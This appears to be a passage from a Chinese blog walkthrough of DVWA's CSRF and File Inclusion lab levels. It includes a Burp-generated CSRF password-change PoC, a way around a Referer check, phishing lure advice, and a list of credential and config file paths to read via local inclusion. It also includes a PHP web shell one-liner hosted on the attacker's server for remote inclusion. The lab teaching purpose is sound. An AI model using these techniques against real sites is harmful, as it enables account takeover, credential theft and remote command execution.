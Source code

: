 　　那么问题来了，是不是只要在你已经登录了此a站点的情况下，攻击者发给你这个http://<span>www</span>.xxx.com?password_new=xxx，xxx是对方设置的密码，你的密码就会被成功修改？答案是肯定的，这就是一个非常非常简单的csrf。为啥非得要你登陆了此站点下点链接，才会被修改，这个问题不言而喻吧。
　　low级别，在burp中有csrf功能，直接开burp，截取到数据包后点击Generate CSRF PoC
　   ![JGD9kd.png](https://s1.ax1x.com/2020/04/21/JGD9kd.png)
　　下面的框中给出了csrf html代码。可以看到我将密码设置成了passwd
　   ![JGssTe.png](https://s1.ax1x.com/2020/04/21/JGssTe.png)
　　选择最下面的Copy HTML。当然你也可以直接点击Test in browser，不知道为啥我这里无效，所以只能手动保存为html文件
　　运行此html后，就是一个非常简单的提交框，点击后密码就会被改变，当然如果在真实的环境下，你要做的尽量真实。比如rtx2080ti大减价，点开链接疯狂抢购啥的。
　　![JG6aqK.png](https://s1.ax1x.com/2020/04/21/JG6aqK.png)
　　点击提交框后，密码修改成功
　　![JGcI0K.png](https://s1.ax1x.com/2020/04/21/JGcI0K.png)
　　查看源码，中间将新的密码通过sql命令更新，可能这里也存在sql注入漏洞，无任何消毒csrf机制，mysql_real_escape_string有消毒sql命令
　　[![JG2QVf.png](https://s1.ax1x.com/2020/04/21/JG2QVf.png)](https://imgchr.com/i/JG2QVf)
　　medium级别，上述过程全部一样，然后直接点提交按钮后，发现无任何内容，密码修改不成功。嗯我选择放弃，直接查看源码
　　![JGfjdx.png](https://s1.ax1x.com/2020/04/21/JGfjdx.png)
　　多了if判断，referer头是否来自127.0.0.1即本机，嗯这个简单，点击提交功能后，burp拦截下来，添加referer头为127.0.0.1。
　　![JGhL9S.png](https://s1.ax1x.com/2020/04/21/JGhL9S.png)
　　forward后，成功修改密码
　　high级别，你可以看到多了一个输入原密码的框，所以不存在csrf。
### File Inclusion
　　文件包含漏洞，分为本地文件包含和远程文件包含，php里面的我不是太懂，所以我也不会乱说，详细了解移步<a href="https://www.freebuf.com/articles/web/182280.html">freebuf文件包含</a>。
　　本地文件包含直接可以查看到本地文件，造成信息泄露
　　![JGOq6P.png](https://s1.ax1x.com/2020/04/21/JGOq6P.png)
　　可以看到passwd文本中的内容，以下是常见的存储位置
Windows系统
```
c:\boot.ini  // 查看系统版本
c:\windows\system32\inetsrv\MetaBase.xml // IIS配置文件
c:\windows\repair\sam 	// 存储Windows系统初次安装的密码
c:\ProgramFiles\mysql\my.ini // MySQL配置
c:\ProgramFiles\mysql\data\mysql\user.MYD // MySQL root密码
c:\windows\php.ini 	// php 配置信息
```

Linux/Unix系统
```
/etc/passwd 	// 账户信息
/etc/shadow 	// 账户密码文件
/usr/local/app/apache2/conf/httpd.conf 	// Apache2默认配置文件
/usr/local/app/apache2/conf/extra/httpd-vhost.conf // 虚拟网站配置
/usr/local/app/php5/lib/php.ini // PHP相关配置
/etc/httpd/conf/httpd.conf 	// Apache配置文件
/etc/my.conf // mysql 配置文件
```
　　远程文件包含，首先启动kali中的apach2服务
　　输入service apache2 start，成功开启后没有任何提示，输入cd /var/www/html来到站点目录下。创建一个1.txt文件内容为<?php echo shell_exec($_GET['cmd']);?<span>></span>，这句话意思是执行shell命令
　　访问该站点看是否能正常读取文件内容
　　![JJSnQs.png](https://s1.ax1x.com/2020/04/21/JJSnQs.png)
　　成功执行ls命令，如果在low的级别下远程包含出错移步<a href="https://blog.csdn.net/wang_624/article/details/90381314">解决远程文件包含出错</a>，所以远程文件包含远远不是信息泄露的问题了，已经上升到命令执行了，当然你也可以拿shell了。
　　![JJ7XQK.png](https://s1.ax1x.com/2020/04/21/JJ7XQK.png)
　　low级别源码为
```php
<?php 
    $file = $_GET['page']; //The page we wish to display  
?>
```